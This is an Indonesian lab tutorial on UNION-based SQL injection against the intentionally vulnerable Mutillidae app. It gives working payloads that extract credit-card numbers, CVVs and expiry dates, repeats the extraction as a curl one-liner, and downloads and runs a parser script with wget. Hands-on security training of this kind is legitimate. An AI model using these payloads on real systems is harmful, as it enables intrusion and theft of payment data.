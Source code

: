 # Mutillidae Lesson 8

### Union

- Pada server, ketikkan perintah dibawah
```
sudo mysql
```
- Lalu jalankan query berikut
```
show databases; //untuk melihat daftar database
use owasp10; //mengakses database owasp10
show tables; //untuk melihat daftar tabel
desc accounts; //untuk melihat tabel accounts
desc credit_cards; //untuk melihat tabel credit_cards
```
- Lalu jalankan query select menggunakan union
```
select * from accounts union select ccid,ccnumber,ccv,expiration,null from credit_cards;
```
- Hasilnya adalah tabel gabungan dari tabel accounts dan credit_cards. Tujuannya adalah untuk melihat isi dari tabel credit_cards dari query tabel accounts.


### Membuka Halaman User Info

- Pada client, buka mutillidae dari browser
```
http://[ip_metasploit]/mutillidae
```
- Buka halaman User Info
```
OWASP TOP 10 -> A1 - SQL Injection -> SQLi Extract Data -> User Info
```

### SQL Injection (Contoh #1)
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
```
"size=100"`
```
- Isi form Name dengan string berikut
	```
    ' union select null -- //selalu tambahkan spasi setelah "--"
    ```
- Klik View Account Details
- Keterangan: Jumlah null melambangkan jumlah field pada tabel. 
- Hasil error disebabkan karena jumlah field tidak sesuai.


### SQL Injection (Contoh #2)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select null,null,null,null,null -- //selalu tambahkan spasi setelah "--"
```
- Klik View Account Details
- Keterangan: Untuk mengetahui jumlah field pada tabel dengan diulang dengan mencoba-coba hingga tidak terjadi error. Pada contoh diatas jumlah field-nya ada 5 sehingga ditulis null sebanyak 5.
- Hasilnya kosong karena nilai yang dimasukkan semuanya null.

### SQL Injection (Contoh #3)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select 1,2,3,4,5 -- //selalu tambahkan spasi setelah "--"
```
- Keterangan: Tujuannya adalah untuk mencari tahu urutan field pada tabel. Urutan field username, password, dan signature didapatkan sesuai dengan nilai yang dimasukkan.

### SQL Injection (Contoh #4)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards --  //selalu tambahkan spasi setelah "--"
```
- Keterangan: Tujuannya adalah untuk mencari mengambil nilai dari tabel credit_cards sesuai dengan urutannya.
- Hasil :
```
Username berisi ccnumber
Password berisi ccv
Signature berisi expiration
```

### SQL Injection (Contoh #5)
- Tujuannya sama dengan Contoh #4 dengan perbedaan pada metode yang menggunakan curl.
- Buka terminal dan jalankan perintah dibawah
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[ip_metasploit]/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
```
- Maka hasilnya akan sama dengan Contoh #4.
- Untuk menyimpan hasil kedalam sebuah file jalankan perintah berikut
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[ip_metasploit]/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
cat lesson8.txt
```
- Karena hasilnya susah dibaca, download dan jalankan output parser
```
cd /root
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
mv lesson8.pl.TXT lesson8.pl
chmod 700
lesson8.pl
./lesson8.pl
```
    
